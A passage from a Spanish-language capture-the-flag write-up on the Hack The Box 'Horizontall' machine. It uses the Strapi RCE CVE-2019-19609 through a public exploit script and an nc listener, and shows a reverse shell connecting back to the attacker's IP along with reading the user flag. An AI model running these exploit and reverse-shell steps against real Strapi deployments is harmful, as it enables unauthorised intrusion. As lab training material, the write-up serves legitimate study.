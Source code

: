 {% embed url="https://www.incibe.es/index.php/incibe-cert/alerta-temprana/vulnerabilidades/cve-2019-19609" %}

{% hint style="danger" %}
El framework Strapi versiones anteriores a 3.0.0-beta.17.8, es vulnerable a una Ejecución de Código Remota en los componentes del Plugin de Instalación y Desinstalación del panel de Administración, ya que no sanea el nombre del plugin y los atacantes pueden inyectar comandos de shell arbitrarios para ser ejecutados mediante la función exec.
{% endhint %}

Realizando una búsqueda por Internet, nos encontramos con el siguiente repositorio de GitHub que nos ofrece la explotación de la vulnerabilidad.

{% embed url="https://github.com/glowbase/CVE-2019-19609" %}

```bash
❯ git clone https://github.com/glowbase/CVE-2019-19609; cd CVE-2019-19609
Clonando en 'CVE-2019-19609'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 18 (delta 4), reused 13 (delta 3), pack-reused 0 (from 0)
Recibiendo objetos: 100% (18/18), 5.13 KiB | 5.13 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
```

Nos pondremos en escucha con `nc` para poder obtener la conexión de la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

A través del exploit que nos hemos descargado, realizaremos la explotación de la vulnerabilidad sobre la página de `Strapi` vulnerable, para que se nos proporcione una Reverse Shell hacía nuestro equipo.

```bash
❯ python3 exploit.py http://api-prod.horizontall.htb 10.10.16.3 443
========================================================
|    STRAPI REMOTE CODE EXECUTION (CVE-2019-19609)     |
========================================================
[+] Checking Strapi CMS version
[+] Looks like this exploit should work!
[+] Executing exploit
```

Verificamos que finalmente logramos realizar la explotación y nos encontramos en el equipo víctima con el usuario `strapi`. También podemos verificar la flag **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.105] 60270
/bin/sh: 0: can't access tty; job control turned off
$ whoami
strapi
$ ls -l /home 
total 4
drwxr-xr-x 8 developer developer 4096 Aug  2  2021 developer
$ cat /home/developer/user.txt
37f728736e***********************
```
